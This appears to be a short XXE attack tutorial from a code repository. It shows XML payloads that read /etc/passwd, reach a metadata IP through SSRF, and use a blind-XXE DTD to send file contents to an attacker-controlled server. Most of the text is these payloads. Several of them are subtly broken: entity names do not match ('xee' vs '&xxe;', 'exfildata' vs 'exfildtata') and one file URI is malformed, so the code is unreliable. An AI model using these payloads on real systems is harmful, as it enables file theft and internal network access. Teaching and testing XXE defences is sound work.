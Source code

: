 # XXE
An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from various perspective of the machine where the parser is located, and other system impacts.

## Impact
- Read local files on the host
- Access to local network via Server Sie Request Forgery (SSRF)

## Example
Consider the following example:

POST http://sometargetsite.com/import?type=XML HTTP/1.1

| User request:                      | Application response: |
| ---------------------------------- | --------------------- |
| \<?xml version = "1.0"             | HTTP/1.0 200 OK       |
| encoding="ISO-8859-1"?\>           | NahamSec              |
| \<username\>NahamSec\<\/username\> |                       |

## How to exploit
By modifying our request and using the System entity we are able to read local files using a vlid URI scheme (http:// or file://)

#### Accesing sensitive files

POST http://somtargetsite.com/import?type=XML HTTP/1.1

| \<?xml version="1.0" encoding="ISO-8859-1"?> | Application responds with:                      |
| -------------------------------------------- | ----------------------------------------------- |
| \<!DOCTYPE foo \[                            | HTTP/1.0 200 OK                                 |
| \<!ELEMENT foo ANY >                         | root:x:0:0:root:/usr/bin/zsh                    |
| \<!ENTITY xee SYSTEM                         | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin |
| "file":///etc/passwd">                       | bin:x:2:2:bin:/bin:/usr/sbin/nologin            |
| \]>                                          | sys:x:3:3:sys:/dev:/usr/sbin/nologin            |
| \<foo>                                       | sync:x:4:65534:synd:/bin:/bin/sync              |
| &xxe;                                        | games:x:5:60:games:/usr/games:/usr/sbin/nologin |
| \</foo>                                      | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin |


#### Leveraging SSRF

POST http://sometargetsite.com/import?type=XML HTTP/1.1

| Request                                      | Response        |
| -------------------------------------------- | --------------- |
| \<?xml version="1.0" encoding="ISO-8859-1"?> | HTTP/1.0 200 OK |
| \<!DOCTYPE foo \[                            | 2016-04-19      |
| \<!ELEMENT foo ANY>                          | 2016-06-30      |
| \<!ENTITY xxe SYSTEM                         | 2016-09-02      |
| "http://169.254.160.254/">                   | latest          |
| \]>                                          |                 |
| \<foo>                                       |                 |
| &xxe;                                        |                 |
| \</foo>                                      |                 |


## Blind XXE
In case of a blind XXE, you can always rely on dtd file to exfil datat to your server

POST http://sometargetsite.com/import?typ=XML HTTP/1.1

| Request:                                                                            | evil.dtd:                                                                                                                                                          |
| ----------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| \<!DOCTYPE foo \[\<!ENTITY % xxe SYSTEM "http://poc.myserver.com/evil.dtd"> %xxe;]> | \<!ENTITY % xxePOC SYSTEM "file:///etc/passwd"><br>\<!ENTITY % exfildata "\<!ENTITY exfil SYSTEM 'http://poc.mysite.com/?x=%xxePOC;'>"><br>%exfildtata;<br>%exfil; |

Assign the contents of /etc/passwd to "xxe". Defines a new entity called "exfildata" under "eval". "Exfil" makes a http request to the attacker server with the contents of our file.

